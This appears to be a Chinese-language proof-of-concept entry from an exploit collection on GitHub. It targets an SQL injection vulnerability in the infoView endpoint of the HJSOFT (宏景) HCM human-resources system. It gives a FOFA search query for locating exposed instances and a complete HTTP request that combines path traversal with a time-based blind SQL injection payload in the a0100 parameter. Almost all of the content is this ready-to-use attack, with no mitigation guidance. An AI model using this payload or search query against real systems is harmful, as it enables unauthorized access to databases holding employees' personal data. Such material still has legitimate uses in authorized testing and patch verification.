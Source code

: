 ## 宏景HCM系统infoView处存在sql注入漏洞

## fofa
```
app="HJSOFT-HCM"
```


## poc
```
GET /templates/attestation/../../general/info/view?kind=1&a0100=1';waitfor+delay+'0:0:3'+-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

![735e80af6f18b931778ed42001b7733e](https://github.com/wy876/POC/assets/139549762/6d8159a2-5884-4a1e-823a-e06705afb37e)
